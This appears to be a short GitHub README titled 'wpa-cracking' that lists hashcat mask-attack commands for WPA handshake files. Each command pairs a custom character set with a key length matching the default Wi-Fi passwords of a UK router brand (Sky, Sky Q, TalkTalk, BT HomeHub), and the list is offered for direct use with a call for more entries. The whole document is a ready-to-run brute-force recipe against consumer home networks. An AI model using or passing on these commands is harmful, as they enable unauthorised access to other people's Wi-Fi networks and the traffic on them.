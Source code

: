# wpa-cracking
Command List for Hashcat and default keyspaces.

Replace #HL# with the hashfile.



| Type  |      Command    |
|----------|:-------------:|
| 	sky|  -m 2500 #HL# -a 3 -1 EBWDCFAXRYVPTSUQ ?1?1?1?1?1?1?1?1|
| sky q |    -m 2500 #HL# -a 3 -1 NBPYVLMRXTCFWDSQ ?1?1?1?1?1?1?1?1?1?1   |
| Talktalk | 	-m 2500 #HL# -a 3 -1 346789ABCDEFGHJKMNPQRTUVWXY ?1?1?1?1?1?1?1?1|
|	BT-HomeHub | -m 2500 #HL# -a 3 -1 23456789abcdef ?1?1?1?1?1?1?1?1?1?1 |
| Sky Q 1 | -m 2500 #HL# -a 3 -1 BCDFLMNPQRSTVWXY ?1?1?1?1?1?1?1?1?1?1|


Please Contribute!

